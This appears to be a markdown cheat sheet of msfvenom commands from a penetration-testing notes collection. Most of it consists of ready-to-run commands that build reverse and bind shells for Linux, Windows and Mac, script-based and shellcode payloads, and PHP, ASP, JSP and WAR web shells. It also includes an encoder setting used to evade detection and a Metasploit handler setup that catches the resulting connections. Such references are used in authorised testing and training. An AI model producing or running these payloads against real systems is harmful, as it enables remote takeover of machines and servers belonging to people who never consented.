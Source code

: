 ### msfvenom

#### Payloads list
```
msfvenom -l
```
#### Binaries
- Linux
  - Meterpreter reverse shell
    - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
  - Meterpreter bind shell
    - msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Bind shell
    - msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Reverse shell
    

- Windows
  - Meterpreter reverse shell
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
  - Meterpreter bind shell
  
  - Reverse shell
    - msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
  - Bind shell
  
  - Meterpreter encoded reverse shell 
    - msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
  
- Mac
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

#### Scripting Payloads
- Python
  - msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
- Bash
  - msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
- Perl
  - msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
  
#### Shellcode 
- Linux Based Shellcode
  - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
- Windows Based Shellcode
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
- Mac Based Shellcode
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
  
#### Web Payloads
- PHP
  - msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
- ASP
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
- JSP
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
- WAR
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

#### Handlers
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
https://github.com/g0tmi1k/msfpc
